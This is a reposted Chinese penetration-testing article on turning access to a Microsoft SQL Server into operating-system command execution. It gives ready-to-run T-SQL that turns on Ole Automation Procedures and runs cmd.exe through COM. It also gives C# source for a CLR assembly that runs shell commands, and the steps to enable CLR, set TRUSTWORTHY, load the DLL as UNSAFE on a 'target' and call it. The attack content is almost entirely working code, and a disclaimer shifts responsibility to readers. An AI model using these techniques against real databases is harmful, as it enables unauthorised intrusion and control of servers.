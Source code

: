 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/BnFa4f1EKsALxm6N3bNLgw)

文章来源：https://422926799.github.io/posts/639a5410.html
----------------------------------------------------

**利用 COM 执行命令**
---------------

需要开启 Ole Automation Procedures 组件

```
declare @luan int,@exec int,@text int,@str varchar(8000);exec sp_oacreate '{72C24DD5-D70A-438B-8A42-98424B88AFB8}',@luan output;exec sp_oamethod @luan,'exec',@exec output,'C:\\Windows\\System32\\cmd.exe /c whoami';exec sp_oamethod @exec, 'StdOut', @text out;exec sp_oamethod @text, 'readall', @str out;select @str;
```

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM7rca8Cm6C4UD2e2YYnPAnctbX5zicoVJ7uMA5e8QjI2eHNBV4tfCrnaWichzYboEj4zh0HdKgobicWg/640?wx_fmt=png)

没有开启 Ole Automation Procedures，可以用下面的命令开启  

```
sp_configure 'show advanced options', 1;GORECONFIGURE;GOsp_configure 'Ole Automation Procedures', 1;GORECONFIGURE;GO
```

**编写 CLR 实现执行命令**
-----------------

编写语言：C#  
Vs 创建类库

```
using System;using System.Collections.Generic;using System.Linq;using System.Text;using System;using System.Threading.Tasks;namespace shellexec{    public class exec    {        public static string cmd(string command)        {            System.Diagnostics.Process pro = new System.Diagnostics.Process();            pro.StartInfo.FileName = "cmd.exe";            pro.StartInfo.UseShellExecute = false;            pro.StartInfo.RedirectStandardError = true; //标准错误            pro.StartInfo.RedirectStandardInput = true; //标准输入            pro.StartInfo.RedirectStandardOutput = true; //标准输出            pro.StartInfo.CreateNoWindow = true; //是否在新窗口开启进程            pro.Start();            pro.StandardInput.WriteLine(command + "&&exit"); //命令参数写入            pro.StandardInput.AutoFlush = true; //缓冲区自动刷新            string output = pro.StandardOutput.ReadToEnd(); //读取执行结果            pro.WaitForExit(); //等待执行完成退出            pro.Close();            return output.ToString();        }    }}
```

生成 dll 后，可以用 hex 的方法写到目标，或者 shell 上传。然后开始构造  
1. 目标数据库实例需要启用 clr 集成

```
exec sp_configure 'clr enabled', 1;--在SQL Server中启用CLRreconfigure;go
```

2. 目标数据库的可信任属性需要设为 false, 可以使用以下语句启用

```
ALTER DATABASE [<数据库名称>] SET TRUSTWORTHY ON
```

3. 在数据库中注册 DLL

```
CREATE ASSEMBLY MySqlCLR FROM '<dll的路径>' //MySqlCLR为导入dll后的变量名称
```

4. 创建函数  
（根据对应函数的类型的参数构造对应的参数类型，然后 RETURNS [nvarchar] (max) 记得设置为返回最大如果是返回 string 类型的话），在直接这个 dll 的名称在那个命名空间、类、函数）

```
CREATE FUNCTION [dbo].[cmd2]  (      @cmd AS NVARCHAR(max))  RETURNS [nvarchar] (max) WITH EXECUTE AS CALLERAS  EXTERNAL NAME [MySqlCLR].[shellexec.exec].cmd //shellexec为命名空间，exec为类名，cmd为函数名GO
```

5. 程序集的权限级别必须设为 external access, 否则在部署的时候会报错

```
ALTER ASSEMBLY [MySqlCLR]WITH PERMISSION_SET = UNSAFE
```

6. 调用存储过程和函数方法

`select [dbo].[cmd2]('whoami')`

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM7rca8Cm6C4UD2e2YYnPAncUzlKsFf87iasTFWKwFfAu3P5lHHw9ruT05icR6XfFHKtBrZdAJx09B4w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ewSxvszRhM7rca8Cm6C4UD2e2YYnPAncGC45gkJyIbuo55m9mDjicap7OOPTcKfyHiak2icFlB3SIxiama8HUlhzKQ/640?wx_fmt=png)

公众号

最后  

-----

**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**

**无害实验室拥有对此文章的修改和解释权如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的**